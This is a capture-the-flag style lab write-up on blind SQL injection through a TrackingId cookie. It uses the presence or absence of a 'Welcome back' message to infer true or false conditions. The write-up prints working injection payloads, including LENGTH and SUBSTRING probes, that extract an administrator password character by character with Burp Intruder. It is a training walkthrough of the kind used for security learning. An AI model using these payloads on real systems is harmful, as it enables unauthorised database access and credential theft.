# Blind SQL Injection with Conditional Responses

**Written by Dnyaneshwar Yadav**

---

## Overview

This lab contains a **blind SQL injection vulnerability** in the application.

The application uses a **TrackingId cookie** for analytics and embeds its value inside a SQL query.

The application does not return query results or errors, but it displays a **"Welcome back"** message when the query returns any rows.

By observing this message, TRUE/FALSE conditions can be inferred to extract the administrator password.

---

## Solution

### Step 1: Normal request – TRUE baseline

Send the original request to Burp Repeater.

The response contains the **"Welcome back"** message.



---

### Step 2: Invalid TrackingId – FALSE

Modify the TrackingId value to an invalid value.

The **"Welcome back"** message does not appear.



---

### Step 3: Boolean TRUE condition

Inject a TRUE condition:
```sql
' AND 1=1--
```

The **"Welcome back"** message appears.



---

### Step 4: Boolean FALSE condition

Inject a FALSE condition:
```sql
' AND 1=0--
```

No **"Welcome back"** message appears.



---

### Step 5: Confirm `users` table exists
```sql
' AND (SELECT 'a' FROM users LIMIT 1)='a'--
```

TRUE condition confirmed.


---

### Step 6: Confirm administrator user exists
```sql
' AND (SELECT 'a' FROM users WHERE username='administrator')='a'--
```

TRUE condition confirmed.



---

### Step 7: Test password length = 1 (FALSE)
```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=1)='a'--
```

FALSE response received.



---

### Step 8: Send request to Intruder (length detection)

Request sent to **Burp Intruder** to automate password length testing.



---

### Step 9: Password length identified

Intruder results confirm password length is **20 characters**.



---

### Step 10: Prepare SUBSTRING payload
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'--
```



---

### Step 11: Intruder position set (character index)

Payload position configured for password index.



---

### Step 12: Intruder payload list configured

Character list (`a-z`, `0-9`) configured.



---

### Step 13: Intruder attack launched

Intruder attack started.



---

### Step 14: Correct character identified

Response with **"Welcome back"** indicates correct character.



---

### Step 15: Full password extracted

Password reconstructed character by character.



---

### Step 16: Administrator login & lab solved

Administrator credentials used successfully.

Lab marked as **solved**.



---

## 📂 Screenshots Folder Structure
```text
screenshots/
├── 01-welcome-back-true.png
├── 02-welcome-back-false.png
├── 03-boolean-true.png
├── 04-boolean-false.png
├── 05-users-table.png
├── 06-admin-exists.png
├── 07-length-1-false.png
├── 08-intruder-length-setup.png
├── 09-password-length-20.png
├── 10-substring-payload.jpeg
├── 11-intruder-index.png
├── 12-intruder-characters.png
├── 13-intruder-start.png
├── 14-correct-character.png
├── 15-password-extracted.jpeg
└── 16-lab-solved.png
```

---
